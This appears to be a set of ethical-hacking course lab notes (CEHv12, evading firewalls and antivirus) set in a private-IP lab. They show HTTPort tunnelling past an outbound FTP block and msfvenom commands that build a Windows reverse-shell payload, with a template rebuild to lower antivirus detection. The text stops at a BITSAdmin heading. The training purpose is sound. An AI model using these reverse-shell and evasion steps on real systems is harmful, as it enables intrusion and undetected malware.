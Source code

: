 #### Tunnelling

+ Navigate to `Z:\CEHv12 Module 12 Evading IDS, Firewalls, and Honeypots\HTTP Tunneling Tools\HTTPort` and double-click `httport3snfm.exe`
+ Launch `HTTPort` (Httport3SNFM) from the `Start` menu
+ On the `Proxy` tab, enter the Host name or IP address (`10.10.1.22`) of the machine where HTTHost is running (Windows Server 2022)
+ Enter the Port number `90`
+ In the `Misc.` options section, select Remote host from the `Bypass` mode drop-down list
+ In the `Use personal remote host at (blank = use public)` section, re-enter the IP address of Windows Server 2022 (`10.10.1.22`) and port number `90`
+ Enter the password `magic` into the Password field
+ Select the `Port mapping` tab, and click `Add` to create a new mapping
+ Right-click the `New mapping` node, and click `Edit`
+ Rename this as `ftp test` (you can enter the name of your choice)
+ Right-click the `node below Local port`; then click Edit and enter the port value as `21`
+ Right-click the `node below Remote host`; click Edit and rename it as `10.10.1.11`
+ Right-click the `node below Remote port`; then click Edit and enter the port value as `21`
+ Switch to the `Proxy` tab and click `Start` to begin the HTTP tunneling
+ In the `Windows Server 2019` click the `Windows Administrative Tools` app. The Windows Administrative Tools window appears; double-click `Services` to launch
+ Disable `IIS Admin Service`, `World Wide Web Publishing services` and `FTP`
+ In `Windows Server 2019`; launch Command Prompt, type `ftp 10.10.1.11`, and press `Enter`. The ftp connection will be blocked by the outbound firewall rule
+ Launch a new Command Prompt, type `ftp 127.0.0.1`, and press `Enter`
+ mkdir Test
+ A directory named `Test` will be created in the FTP folder on the Windows 11 (location: `C:\FTP`) machine

### Task 3: Bypass Antivirus using Metasploit Templates

+ Open the `terminal`
+ sudo su
+ msfvenom -p windows/shell_reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Windows.exe
+ Launch `Microsoft Edge` and navigate to `https://www.virustotal.com`
+ Upload the Windows.exe file and notice the number of antivirus that have detected the virus
+ In the terminal, type `pluma /usr/share/metasploit-framework/data/templates/src/pe/exe/template.c` and press `Enter`
+ A `template.c` file appears, in the `line 3` change the payload size from `4096` to `4000`, `save` the file and `close` the editor
+ cd /usr/share/metasploit-framework/data/templates/src/pe/exe/
+ i686-w64-mingw32-gcc template.c -lws2_32 -o evasion.exe
+ ls
+ In a new terminal generate a payload using new template by the following command
  + msfvenom -p windows/shell_reverse_tcp lhost=10.10.1.13 lport=444 -x /usr/share/metasploit-framework/data/templates/src/pe/exe/evasion.exe -f exe > /home/attacker/bypass.exe
+ Upload the bypass.exe file and notice the number of antivirus that have detected the virus

### Task 4: Bypass Firewall through Windows BITSAdmin
